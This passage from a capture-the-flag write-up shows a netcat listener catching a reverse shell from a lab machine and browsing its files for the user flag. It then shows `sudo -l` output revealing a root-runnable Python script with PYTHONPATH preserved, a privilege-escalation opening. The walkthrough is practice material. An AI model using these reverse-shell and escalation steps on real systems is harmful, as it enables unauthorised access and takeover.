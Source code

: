 - Got a reverse shell.

```console
❯ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.17.0.215] from (UNKNOWN) [10.10.252.69] 58846
bash: cannot set terminal process group (1557): Inappropriate ioctl for device
bash: no job control in this shell
ls
ls
bin
boot
box_setup
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
vagrant
var
vmlinuz
vmlinuz.old
cd /home/wes
cd /home/wes
cd .ssh
cd .ssh
bash: cd: .ssh: No such file or directory
ls
ls
user.txt
```
- Found user text

### Privilege Escalation
- Checked commands allowed to wes to run as root on this machine

```console
sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```
- No broken paths
- We don't have write access on `/opt/development/test_module.py` 
